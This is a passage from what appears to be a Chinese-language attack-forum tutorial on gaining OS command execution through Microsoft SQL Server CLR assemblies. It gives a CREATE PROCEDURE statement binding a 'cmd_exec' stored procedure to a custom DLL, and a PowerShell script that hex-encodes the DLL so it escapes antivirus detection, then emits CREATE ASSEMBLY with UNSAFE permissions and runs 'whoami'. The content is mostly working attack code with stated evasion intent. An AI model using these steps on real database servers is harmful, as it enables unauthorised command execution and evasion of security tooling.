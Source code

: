 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-8cf16dc90dd22d3c570188a8a5368759042f89ac.png)  
创建过程

```php
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [shell].[StoredProcedures].[cmd_exec];
GO
```

成功执行命令  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e4e5eea4c1d84316f1bc8bdcf4116ccccf44066c.png)

### 16进制Dll转换

由于dll可能会被查杀，尝试转换为16进制导入，使用以下ps1脚本转换dll

```php
# Target file
$assemblyFile = "C:\\Users\\administrator\\Desktop\\cmd_exec.dll"

# Build top of TSQL CREATE ASSEMBLY statement
$stringBuilder = New-Object -Type System.Text.StringBuilder 
$stringBuilder.Append("CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM `n0x") | Out-Null

# Read bytes from file
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}

# Build bottom of TSQL CREATE ASSEMBLY statement
$stringBuilder.AppendLine("`nWITH PERMISSION_SET = UNSAFE") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Build create procedure command
$stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Create run os command
$stringBuilder.AppendLine("EXEC[dbo].[cmd_exec] 'whoami'") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null

# Create file containing all commands
$stringBuilder.ToString() -join "" | Out-File C:\Users\administrator\Desktop\\dll_hex.txt
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-e282653dfa51f8e0a9848d243c83be8b15cc6d60.png)  
或使用PowerUpSql生成更加方便
